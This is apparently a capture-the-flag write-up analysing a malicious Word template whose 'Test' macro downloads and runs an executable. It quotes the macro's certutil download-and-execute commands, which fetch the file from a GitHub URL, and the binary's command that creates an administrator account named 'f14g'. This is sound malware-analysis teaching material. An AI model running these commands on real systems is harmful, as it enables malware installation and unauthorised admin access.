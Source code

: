 # Task 1: Resign Letter
Question: 

Flag: `RWSC{p@ss123}`

We are given a weird document template file created by Microsoft Word. When opening it, macros can be found.

![image](https://hackmd.io/_uploads/BJ-lW6Hp6.png)

Opening the macro named "Test" as shown below provides us with the following code.

![image](https://hackmd.io/_uploads/rkgoLZaHap.png)

```
Shell ("cmd /c certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Adv_Sim/raw/main/lenovo.exe %temp%\lenovo.exe")
Shell ("cmd /c %temp%\lenovo.exe")
```

Downloading the mallicious binary and using strings, we can see that it executes:
```
cmd.exe /c net user f14g cEBzczEyMw== /ADD && net localgroup Administrators f14g /ADD
```

It tries to add the user f14g to the local machine and add it to the Administrators group. Decode the base64 password for the flag.

